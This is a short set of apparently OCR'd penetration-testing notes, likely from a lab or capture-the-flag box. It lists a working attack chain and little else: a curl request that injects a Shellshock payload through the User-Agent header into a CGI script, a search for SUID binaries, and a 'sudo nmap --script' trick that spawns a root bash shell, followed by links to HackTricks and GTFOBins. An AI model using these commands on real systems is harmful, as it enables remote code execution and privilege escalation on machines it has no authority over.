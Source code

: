 curl -H "User-Agent: () { :;}; echo; /bin/sudo -l" http://10.8.0.10/cgi-bin/shell.sh

Sudo -l
find hacker -exec whoami \;
find / -perm -u=s -type f 2>/dev/null

 TF=$(mktemp) 
 echo 'os.execute("/bin/bash")' > $TF
sudo nmap --script=$TF 

https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/cgi

https://gtfobins.github.io/



